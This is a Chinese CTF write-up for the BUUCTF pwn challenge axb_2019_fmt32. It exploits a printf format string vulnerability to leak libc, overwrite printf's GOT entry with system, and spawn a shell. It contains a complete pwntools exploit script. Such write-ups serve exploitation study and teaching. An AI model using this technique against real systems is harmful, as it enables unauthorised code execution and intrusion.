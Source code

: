 32位开启了NX的程序

![image-20210108124658052](https://static.hack1s.fun/images/2021/02/06/image-20210108124658052.png)

其中这里的printf存在格式化字符串的漏洞，但是对长度都有检测，不是溢出的问题



首先使用pwntools的`FmtStr`调试出偏移为8，之后泄漏libc

最后覆盖system函数的got表

泄漏libc的过程，我们输入

```python
def run():
  io = process('./axb_2019_fmt32')
  payload = "%9$pAAAABBBB"
  io.send(payload)
```

这样可以看到实际输出的内容是`0x42414141`

![image-20210409212856901](https://static.hack1s.fun/images/2021/04/09/image-20210409212856901.png)

也就是说我们如果想要任意地址读可以用这样的格式

```
"%9$s" + "A" + p32(addr)
```

通过这样的格式读出来，泄漏libc地址



接下来用LibcSearcher计算出libc的基地址之后，再一次调用格式化字符串漏洞，将printf的got表地址写为system的地址；

这里直接用的pwntools的`fmtstr_payload`构造的写的payload

这个函数有这样几个参数

```python
fmtstr_payload(offset,write,write_size,numbwritten)
```

offset是格式化字符串的偏移；

write是要写的内容，用字典的形式来表示，我们这里就是`{printf_got,system_addr}`

write_size是写入的单位，`write_size="byte"`以字节为单位写入

numbwritten是已经写入了的长度，由于格式化字符串写入是靠`%n`，和格式化字符串长度有关；

这里我们逆向可以看到

![image-20210409222225596](https://static.hack1s.fun/images/2021/04/09/image-20210409222225596.png)

这里是使用`sprintf`将我们输入的buf连接`Repeater:`之后写到`format`中

因此这里长度包括原本的`Repeater`的9以及我们用来填充的5个a的5

最终payload

```python
def run():
    io = remote('node3.buuoj.cn',26066)
    #io = process('./axb_2019_fmt32')
    payload1 = b"%9$sA" + p32(elf.got['puts'])
    io.send(payload1)
    io.recvuntil("tell me:")
    io.recvuntil("Repeater:")
    puts_addr = u32(io.recv(4))
    print("Puts Addr: ",hex(puts_addr))
    libc = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    print("Libc Base: ",hex(libc_base))
    
    printf_addr = elf.got['printf']
    system_addr = libc_base + libc.dump('system')
    payload2 = b"aaaaa" + fmtstr_payload(9,{printf_addr:system_addr},write_size = "byte",numbwritten = 0xe)
    io.send(payload2)
    
    payload3 = ";/bin/sh\x00"
    io.send(payload3)
   
    io.interactive()
```

